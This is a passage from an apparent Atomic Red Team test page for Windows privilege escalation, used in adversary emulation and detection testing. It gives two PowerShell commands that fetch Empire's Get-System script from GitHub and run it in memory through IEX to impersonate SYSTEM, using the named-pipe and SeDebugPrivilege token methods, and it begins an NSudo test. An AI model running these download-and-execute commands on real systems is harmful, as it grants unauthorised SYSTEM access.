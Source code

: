 
**auto_generated_guid:** 90db9e27-8e7c-4c04-b602-a45927884966






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
```






<br/>
<br/>

## Atomic Test #2 - `SeDebugPrivilege` token duplication
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script uses `SeDebugPrivilege` to obtain, duplicate and impersonate the token of a another process.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

**Supported Platforms:** Windows


**auto_generated_guid:** 34f0a430-9d04-4d98-bcb5-1989f14719f0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
```






<br/>
<br/>

## Atomic Test #3 - Launch NSudo Executable
Launches the NSudo executable for a short period of time and then exits.
NSudo download observed after maldoc execution. NSudo is a system management tool for advanced users to launch programs with full privileges.
